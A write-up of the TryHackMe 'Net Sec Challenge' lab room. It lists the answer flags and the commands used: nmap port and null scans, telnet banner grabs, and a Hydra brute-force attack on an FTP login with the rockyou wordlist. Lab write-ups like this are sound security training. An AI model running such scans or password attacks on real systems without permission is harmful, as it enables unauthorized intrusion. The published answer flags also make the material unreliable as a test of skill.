

# [Net Sec Challenge](https://tryhackme.com/r/room/netsecchallenge)


[Net Sec Challenge](https://tryhackme.com/r/room/netsecchallenge) is listed as an medium room. Practice the skills you have learned in the Network Security module. An overview of what we’ll be using is listed here:

* Nmap
* Telnet
* Hydra

## Task 1 - Introduction

Use this challenge to test your mastery of the skills you have acquired in the Network Security module. All the questions in this challenge can be solved using only nmap, telnet, and hydra.

### Answer the questions below

* Launch the AttackBox and the target VM.

	


## Task 2 - Challenge Questions

You can answer the following questions using Nmap, Telnet, and Hydra.

### Answer the questions below

* What is the highest port number being open less than 10,000?
	
	`8080`

	```
	nmap -sV -p- -T4 -vv -oN default-nmap 10.10.54.47
	```

	

* There is an open port outside the common 1000 ports; it is above 10,000. What is it?

	`10021`

* How many TCP ports are open?

	`6`

* What is the flag hidden in the HTTP server header?

	`THM{web_server_25352}`

	```
	telnet $IP 80

	GET /index.html HTTP/1.1
	host: telnet
	```

	

* What is the flag hidden in the SSH server header?

	`THM{946219583339}`

	```
	telnet $IP 22
	```

	

* We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

	`vsftpd 3.0.3`

	

* We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?

	`THM{321452667098}`

	* Crak password `quinn`
	
		```
		hydra -l quinn -P /usr/share/wordlists/rockyou.txt $IP ftp -s 10021
		```

		

	* Use FTP command with user `quinn`
		
		```
		ftp $IP -p 10021
		
		# Login with user quin 
		
		# Get list file
		ls

		# Download the file
		get ftp_flag.txt

		# Quit FTP and read the file
		```

		

* Browsing to http://10.10.108.206:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?

	`THM{f7443f99}`

	```
	sudo nmap -sN $IP
	```

	

## Task 3 - Summary

Congratulations. In this module, we have learned about passive reconnaissance, active reconnaissance, Nmap, protocols and services, and attacking logins with Hydra.
### Answer the questions below

* Time to continue your journey with a new module.